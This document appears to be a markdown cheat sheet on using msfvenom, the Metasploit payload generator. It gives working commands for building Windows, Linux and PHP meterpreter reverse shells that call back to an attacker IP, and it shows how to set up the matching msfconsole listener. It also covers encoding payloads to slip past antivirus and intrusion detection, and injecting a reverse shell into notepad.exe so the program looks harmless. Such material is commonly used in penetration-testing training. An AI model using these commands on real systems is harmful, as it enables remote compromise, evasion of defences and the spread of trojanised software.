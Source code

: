 **msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

| Option        | Description                                                                  |
| ------------- | ---------------------------------------------------------------------------- |
| **`-p`**      | Specify the payload (e.g., `windows/meterpreter/reverse_tcp`).               |
| **`OPTIONS`** | Set parameters such as `LHOST` (attacker’s IP) and `LPORT` (listening port). |
| **`-f`**      | Define the output format (e.g., `exe`, `elf`, `raw`, etc.).                  |
| **`-o`**      | Optional flag to specify an output file.                                     |

```bash
msfvenom -p <payload> OPTIONS -f <format> -o <output_file>
```

####  Steps to Generate Payloads

1. **Choose a Payload**

List all available payloads:

```bash
msfvenom -l payloads
```

 2. **Set Options**

Most payloads require options like `LHOST` (attacker’s IP) and `LPORT` (listening port). For example:

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port>
```

 3. **Choose an Output Format**

List all available formats:

```bash
msfvenom -l formats
```

 4. **Generate and Save Payload**

Save the payload to a file:

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port> -f <format> -o <output_file_name>
```

5. **Set Up the Listener in msfconsole**

```bash
msfconsole
use exploit/multi/handler
# Set the payload to match the one generated with msfvenom
set payload <payload_name>
set LHOST <your_kali_ip> 
set LPORT 4444
exploit
```

#### Examples

```bash
# Windows reverse shell
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o reverse_shell.exe
# Linux reverse shell
msfvenom -a x64 -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf -o reverse_shell.elf
# Linux ELF reverse shell
msfvenom -a x64 -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf
# PHP reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
```


## Encoding payloads
Payload encoding is used to bypass security mechanisms like antivirus software and intrusion detection systems (IDS). Encoding obfuscates the payload by transforming it into a different format, making it harder for security tools to detect.

To encode a payload, use the `-e` flag to specify the encoder and `-i` to set the number of iterations.

```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -e <encoder> -i <iterations> -f <format>
```

#### Common Encoders

|**Encoder**|**Description**|
|---|---|
|`x86/shikata_ga_nai`|A polymorphic XOR additive feedback encoder for x86 architecture.|
|`cmd/powershell_base64`|Encodes payloads into Base64 for PowerShell execution.|
|`x64/xor_dynamic`|XOR encoder for x64 payloads.|
|`php/base64`|Encodes PHP payloads in Base64.|
|`ruby/base64`|Encodes Ruby payloads in Base64.|
|`generic/none`|No encoding applied (default).|
## Injecting Payloads Into Windows Portable Executables
Injecting payloads into legitimate Windows Portable Executables (PEs) is a common technique used to deliver malicious code while masquerading as a benign application. 

- `-x`: Path to the legitimate executable to inject the payload into.
- `-k`: Retains the original functionality of the legitimate executable.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x notepad.exe -k -f exe -o notepad_infected.exe
```